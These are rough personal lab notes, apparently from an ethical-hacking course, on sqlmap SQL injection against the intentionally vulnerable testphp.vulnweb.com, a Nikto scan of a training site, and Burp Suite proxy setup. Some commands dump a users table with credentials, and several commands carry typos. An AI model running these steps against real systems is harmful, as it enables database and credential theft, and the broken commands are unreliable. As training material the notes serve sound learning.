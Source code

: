 # Mysql

1. Sudo su 

2. cd Desktop

3. apt install update

4. apt install mysql

6. Victim Server : testphp.vulnweb.com

7. Kali linux 

8. Find the Parameters

9. http://testphp.vulnweb.com/listproducts.php?cat=1or1=1

￼

 

10. Parameter :  http://testphp.vulnweb.com/listproducts.php?cat=1

 

11. Tool :SQLmap 

12. 

￼

 13. sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1


14. sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 —dbs 

 

15. sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart —tables

 

16. sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users —columns

 

17. sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users —C name, pass,email,name —dump

<br>
-Nikto

-dirb

-dirbuster

 

1. Open the Terminal 

2. nan nikto

3. nikto -host certifiedfhacker.com

4. - Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          162.241.216.11

+ Target Hostname:    certifiedhacker.com

+ Target Port:        80

+ Start Time:         2024-05-03 05:35:36 (GMT-4)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Burpsuite  : 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 

1. Burp suite

2. Click ok

3. No Update

4. Next >> Start Burp

10.  Add on /Install

11. Can See Icon on Firefox

12. Click Option 

13. Name : Burp

14. IP :127.0.0.1

15. Port : 8080

16 Save 

 

17. Open new Tab :    http://burp

18

￼

 

18. Click on CA Certificate 

 

￼

19. It will Downlaod the Certificate 

20. Setting > cert > authorities >> Import

21. Select the Certificate from Files 

22. Checkmarcks  >>>> Mark both of them 

23. Ok

24. Check : Turn Burp On and Then. Access Google 

25 Success.